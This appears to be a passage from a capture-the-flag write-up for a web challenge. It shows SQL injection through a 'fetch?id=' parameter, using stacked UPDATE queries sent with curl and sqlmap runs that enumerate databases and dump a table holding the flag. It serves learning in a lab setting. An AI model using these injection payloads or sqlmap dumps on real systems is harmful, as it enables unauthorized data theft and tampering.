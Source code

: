 I guess, if the hints are mixed up, one interesting thing is that the `viewAlbum` variable is never used,
and we don't ever see the results of querying the `albums` database. What's up with that? I know we can 
drop that table, but that doesn't seem interesting. What if we set parent the same everywhere?

`curl "${BASE_URL}/fetch?id=1;UPDATE%20albums%20SET%20parent=(SELECT%20id%20FROM%20albums);COMMIT;"`

Didn't seem to do anything. Maybe update the title of the album?

`curl "${BASE_URL}/fetch?id=1;UPDATE%20albums%20SET%20title='pwned';COMMIT;"`

Worked fine, no flag. XSS? Tried a few things... maybe we can get it in the subprocess output? No luck there, either. 

I looked at a few walkthroughs, and everything mentions something called `sqlmap`, an automated SQL
injection exploration engine. Does that work? 

```
% python3 sqlmap.py -u "${BASE_URL}/fetch?id=1"
[...]
[08:29:30] [INFO] GET parameter 'id' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
```

OK, we knew that. What are the other options?

```
 % python3 sqlmap.py -u "${BASE_URL}/fetch?id=1" --dbs
[...]
[08:32:48] [INFO] retrieved: 4
[08:32:53] [INFO] retrieved: information_schema
[08:33:36] [INFO] retrieved: level5
[08:33:57] [INFO] retrieved: mysql
[08:34:06] [INFO] retrieved: performance_schema
```

Wow! This is like magic. I'd guess that we're using `LIKE` queries under the hood to determine each letter of each
table sequentially. This is a hassle to do manually, so it's cool that there's a tool to automate this process. 
It does take a long time to run, since we're brute-forcing every letter - I wonder if there's a way to provide
hints to the engine when you know what certain values are going to be? Something to explore in the future - for now,
let's dump some values:

```
% python3 sqlmap.py -u '${BASE_URL}/fetch?id=1' --dump -D level5
[...]
Database: level5
Table: photos
[3 entries]
+----+------------------+--------+------------------------------------------------------------------+
| id | title            | parent | filename                                                         |
+----+------------------+--------+------------------------------------------------------------------+
| 1  | Utterly adorable | 1      | files/adorable.jpg                                               |
| 2  | Purrfect         | 1      | files/purrfect.jpg                                               |
| 3  | Invisible        | 1      | FLAG                                                             |
+----+------------------+--------+------------------------------------------------------------------+
```
